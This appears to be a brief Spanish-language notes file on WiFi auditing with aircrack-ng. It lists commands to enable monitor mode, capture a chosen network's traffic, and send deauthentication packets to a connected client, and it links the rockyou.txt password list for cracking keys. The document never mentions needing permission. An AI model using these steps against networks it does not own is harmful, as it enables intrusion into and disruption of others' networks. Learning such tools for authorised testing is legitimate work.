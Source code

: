 Habilitar el usuario root
    sudo su

actualización de los paquetes en los repositorios del sistema
    apt-get update

Corremos el upgrade de los paquetes en el sistema
    apt-get update


Herramienta para auditar redes
sudo apt install aircrack-ng

aircrack.ng 
[Obtener un diccionario de claves rockyou.txt es de buena calidad](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt&ved=2ahUKEwiRsJD3-riKAxWhp5UCHVbWOOMQFnoECAoQAQ&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd)

Poder conocer valores de red
ifconfig

Obtenemos el nombre de red y con el siguiente comando ponemos nuestra red en modo monitor
airmon-ng start nombre_red

Obtener el nombre de todas las redes disponibles
airodump-ng nombre_redmon

Una vez obtenida el nombre de red a auditar, copiamos BSSID y el numero de canal que ocupa
airodump-ng -c numero_canal --bssid clave-BSSID -w nombre_auditoria nombre_redmon

Obtenemos clave-BSSID de la señal y de una estacion que este ocupandola
aireplay-ng -0 9 -a clave-BSSID -c clave-BSSID_station nombre_redmon
